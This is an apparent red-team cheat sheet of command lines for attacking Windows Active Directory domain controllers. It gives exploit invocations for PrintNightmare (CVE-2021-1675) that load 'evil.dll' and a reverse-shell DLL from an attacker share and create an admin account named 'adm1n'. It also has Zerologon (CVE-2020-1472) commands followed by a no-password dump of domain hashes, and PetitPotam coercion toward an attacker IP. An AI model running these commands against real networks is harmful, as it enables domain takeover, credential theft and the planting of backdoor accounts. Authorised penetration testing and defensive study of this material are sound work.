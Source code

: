 #### **Linux:**
```bash
# Impacket
rpcdump.py @DC_IP | grep -i spooler
python3 CVE-2021-1675.py domain.com/lowpriv:password@DC_IP '\\attacker_ip\share\evil.dll'

# CubeO1d Implementation
python3 CVE-2021-1675.py domain.com/user:pass@target '\\\attacker\share\rev.dll'
```

#### **Windows:**
```powershell
# PowerShell Implementation
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -DriverName "PrintMe" -NewUser "adm1n" -NewPassword "P@ssw0rd123"

# C# Implementation
.\SharpPrintNightmare.exe C:\Windows\System32\kernelbase.dll \\attacker\share\evil.dll
```

### **⚡ Zerologon (CVE-2020-1472)**

#### **Linux:**
```bash
# Test for vulnerability
python3 zerologon_tester.py DC_NAME DC_IP

# Exploit
python3 cve-2020-1472-exploit.py DC_NAME DC_IP
secretsdump.py -just-dc -no-pass DC_NAME\$@DC_IP

# Restore machine account
python3 restorepassword.py domain.com/DC_NAME@DC_NAME -target-ip DC_IP -hexpass ORIGINAL_HEX_PASSWORD
```

#### **Windows:**
```powershell
# SharpZeroLogon
.\SharpZeroLogon.exe DC_NAME DC_IP
```

### **🔗 Coercion Attacks**

#### **PetitPotam**
```bash
# Linux
python3 PetitPotam.py attacker_ip DC_IP
python3 PetitPotam.py -u lowpriv -p password attacker_ip DC_IP

# Windows
.\PetitPotam.exe attacker_ip DC_IP
```
